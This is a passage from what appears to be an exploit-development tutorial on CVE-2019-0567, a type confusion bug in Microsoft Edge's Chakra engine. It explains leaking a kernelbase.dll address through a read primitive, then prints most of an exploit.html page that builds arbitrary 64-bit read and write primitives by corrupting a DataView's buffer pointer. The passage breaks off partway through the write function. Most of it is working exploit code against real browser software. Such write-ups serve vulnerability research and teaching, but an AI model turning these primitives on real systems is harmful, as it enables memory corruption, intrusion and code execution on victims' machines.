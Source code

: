 What this means is that we can use our read primitive to read what `chakra_base+0x5ee2b8` points to (which is a pointer into `kernelbase.dll`). We then can compute the base address of `kernelbase.dll` by subtracting the offset to `DuplicateHandle` from the base of `kernelbase.dll` in the debugger.

<img src="{{ site.url }}{{ site.baseurl }}/images/3typeconfusion16.png" alt="">

We now know that `DuplicateHandle` is `0x18de0` bytes away from `kernelbase.dll`'s base address. Armed with the following information, we can update `exploit.html` as follows and detonate it.

```html
<button onclick="main()">Click me to exploit CVE-2019-0567!</button>

<script>
// CVE-2019-0567: Microsoft Edge Type Confusion
// Author: Connor McGarr (@33y0re)

// Creating object obj
// Properties are stored via auxSlots since properties weren't declared inline
obj = {}
obj.a = 1;
obj.b = 2;
obj.c = 3;
obj.d = 4;
obj.e = 5;
obj.f = 6;
obj.g = 7;
obj.h = 8;
obj.i = 9;
obj.j = 10;

// Create two DataView objects
dataview1 = new DataView(new ArrayBuffer(0x100));
dataview2 = new DataView(new ArrayBuffer(0x100));

// Function to convert to hex for memory addresses
function hex(x) {
    return x.toString(16);
}

// Arbitrary read function
function read64(lo, hi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to read from (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Instead of returning a 64-bit value here, we will create a 32-bit typed array and return the entire away
    // Write primitive requires breaking the 64-bit address up into 2 32-bit values so this allows us an easy way to do this
    var arrayRead = new Uint32Array(0x10);
    arrayRead[0] = dataview2.getInt32(0x0, true);   // 4-byte arbitrary read
    arrayRead[1] = dataview2.getInt32(0x4, true);   // 4-byte arbitrary read

    // Return the array
    return arrayRead;
}

// Arbitrary write function
function write64(lo, hi, valLo, valHi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to write to (4 bytes at a time: e.g. 0x38 and 0x3C)

```